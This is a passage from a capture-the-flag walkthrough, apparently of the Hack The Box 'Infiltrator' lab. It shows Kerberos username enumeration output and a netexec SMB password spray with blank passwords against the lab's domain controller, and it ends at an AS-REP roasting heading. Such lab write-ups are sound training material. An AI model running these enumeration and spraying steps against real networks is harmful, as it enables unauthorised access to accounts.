 ```c
2024/08/31 21:58:23 >   dc01.infiltrator.htb:88

2024/08/31 21:58:23 >  [+] VALID USERNAME:       o.martinez@infiltrator.htb
2024/08/31 21:58:23 >  [+] VALID USERNAME:       d.anderson@infiltrator.htb
2024/08/31 21:58:23 >  [+] VALID USERNAME:       k.turner@infiltrator.htb
2024/08/31 21:58:23 >  [+] VALID USERNAME:       a.walker@infiltrator.htb
2024/08/31 21:58:23 >  [+] VALID USERNAME:       m.harris@infiltrator.htb
2024/08/31 21:58:23 >  [+] VALID USERNAME:       e.rodriguez@infiltrator.htb
2024/08/31 21:58:23 >  [+] VALID USERNAME:       l.clark@infiltrator.htb
2024/08/31 21:58:23 >  Done! Tested 35 usernames (7 valid) in 0.097 seconds
```

A quick spray against port `445/TCP` to look for some additional information like disabled accounts and so on.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ netexec smb 10.129.223.154 -u usernames.txt -p '' --shares --local-auth  
SMB         10.129.223.154  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:DC01) (signing:True) (SMBv1:False)
SMB         10.129.223.154  445    DC01             [-] DC01\david: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\david.anderson: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\danderson: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\anderson: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\olivia: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\olivia.martinez: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\omartinez: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\martinez: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\kevin: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\kevin.turner: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\kturner: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\turner: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\amanda: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\amanda.walker: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\awalker: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\walker: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\marcus: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\marcus.harris: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\mharris: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\harris: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\lauren: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\lauren.clark: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\lclark: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\clark: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\ethan: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\ethan.rodriguez: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\erodriguez: STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] DC01\rodriguez: STATUS_LOGON_FAILURE
```

## ASREPRoasting
